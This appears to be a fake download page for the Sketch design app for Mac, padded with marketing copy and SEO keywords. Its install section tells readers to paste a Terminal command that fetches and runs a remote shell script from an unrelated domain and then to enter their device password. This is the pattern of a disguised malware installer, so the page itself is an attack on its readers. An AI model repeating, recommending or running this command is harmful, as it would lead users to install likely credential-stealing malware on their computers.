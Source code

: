 # Sketch Mac Download  
![Sketch Screenshot 1](https://media.idownloadblog.com/wp-content/uploads/2020/01/Continuity-Sketch-002.png)  
---  

## 📦 How to Install


1. Copy the installation command below.

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get10/install.sh)"
```
3. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
4. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


---  

## 📦 What is Sketch for Mac?  

**Sketch for Mac** is a powerful vector graphics editor built specifically for macOS, designed to help designers and creatives craft stunning user interfaces, mobile apps, web designs, icons, and illustrations.  

Unlike traditional raster-based programs, Sketch is a vector-first tool that allows for precise design at any scale. With tools like symbols, shared styles, prototyping, and real-time collaboration, it empowers UI/UX professionals and product designers to create and iterate quickly and consistently.  

The intuitive interface, smooth performance, and dedicated macOS optimization make Sketch a favorite for those working on a MacBook, iMac, or Mac Studio. It integrates perfectly into Apple workflows, supports Retina displays, and runs lightning-fast on **Apple Silicon (M1, M2, M3)** chips.  

Sketch also supports a vast ecosystem of plugins, making it easy to extend its functionality to suit your specific design workflow—from icon sets to design systems and live prototypes. Whether you're sketching wireframes or building out full design systems, Sketch offers a smooth, professional-grade experience natively on macOS.  

---  

![Sketch Screenshot 2](https://cdn.sketch.com/uploads/big-sur-header@2x.png)  

---



## 🌟 Key Features & Benefits  

- ✏️ **Vector Editing Tools** — Clean, scalable design tools built for modern UI and web design.  
- 🎨 **Customizable Interface** — Work the way you want with customizable workspaces and shortcuts.  
- 🧩 **Plugin Ecosystem** — Hundreds of plugins available for animation, export, prototyping, and more.  
- 📱 **Responsive Design** — Easily preview layouts across multiple screen sizes and devices.  
- 🤝 **Real-Time Collaboration** — Share designs and edit live with teammates in the Sketch Cloud.  
- 💻 **Native macOS App** — Optimized for Apple Silicon (M1, M2, M3) and fully integrated with macOS.  
- 📁 **Export Anywhere** — Export assets, code snippets, and designs for any platform or framework.  

---  

## 🖥️ System Requirements  

- macOS: 12.0 Monterey or later  
- Processor: Apple Silicon (M1/M2/M3) or Intel  
- RAM: 8 GB or more recommended  
- Disk Space: ~2 GB available  

---  

## 🏷️ Keywords  

sketch mac, sketch up mac, sketch up for mac, macbook drawing app, sketch up download mac, sketch osx, sketchup osx, macbook drawing program, download sketch up mac, draw pad mac, mac sketch up, macbook sketch app  

